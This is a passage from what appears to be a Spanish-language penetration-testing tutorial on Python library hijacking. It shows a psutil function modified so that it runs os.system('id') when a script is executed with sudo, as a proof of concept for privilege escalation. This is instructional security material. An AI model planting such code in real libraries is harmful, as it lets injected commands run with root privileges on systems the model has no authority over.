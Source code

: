 Estos permisos son más comunes en entornos de desarrollo donde muchos desarrolladores trabajan en diferentes scripts y pueden requerir privilegios más altos.

### Module Contents

```r
...SNIP...

def virtual_memory():

	...SNIP...
	
    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

Esta es la parte en la library donde podemos insertar nuestro código. Se recomienda ponerlo justo al principio de la función. Allí podemos insertar todo lo que consideremos correcto y efectivo. Podemos importar el módulo `os` para fines de prueba, lo que nos permite ejecutar comandos del sistema. Con esto, podemos insertar el comando `id` y verificar durante la ejecución del script si se ejecuta el código insertado.

### Module Contents - Hijacking

```r
...SNIP...

def virtual_memory():

	...SNIP...
	#### Hijacking
	import os
	os.system('id')
	

    global _TOTAL_PHYMEM
    ret = _psplatform.virtual_memory()
    # cached for later use in Process.memory_percent()
    _TOTAL_PHYMEM = ret.total
    return ret

...SNIP...
```

Ahora podemos ejecutar el script con `sudo` y verificar si obtenemos el resultado deseado.

### Privilege Escalation
